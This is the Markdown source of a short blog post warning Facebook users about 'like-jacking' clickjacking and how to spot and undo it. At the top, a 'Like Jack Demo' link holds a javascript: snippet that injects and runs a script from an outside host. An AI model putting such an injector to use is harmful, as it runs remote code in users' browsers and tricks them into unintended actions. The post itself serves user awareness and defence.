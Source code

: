```yaml
---
layout: post
title: 'FouTube Like Jacking'
tags:
  - facebook

---
```


<a href="javascript:(function(){var s = document.createElement('script');s.src = 'http://thisisnotajoke.com/likejack.js';document.getElementsByTagName('body')[0].appendChild(s);})();">Like Jack Demo</a>
I've been noticing tons of friends getting like-jacked on Facebook recently. The scheme they are getting hit with is very simple and super easy to fall into if you are not aware of it. Basically, any page can cause you to like it purely by clicking anywhere on it. There is a safe to play with <a href="http://erickerr.com/like-clickjacking">click jacking demo</a>. The current way this is getting passed around is as links with eye-catching headers showing up in your feed. First and foremost, look before clicking on the page, many of these have "FouTube" integrations. Second, take a look at the domain. Most of the domains being used are long and cumbersome to type, which is a tell tale sign of a burner domain. If you get hit by this like jack, don't worry, all you need to do is go to your profile and remove the item. No need to change your password, as it is not compromised.
There are many of these like button tricks: <a href="http://arnab.org/blog/reputation-misrepresentation">http://arnab.org/blog/reputation-misrepresentation</a>


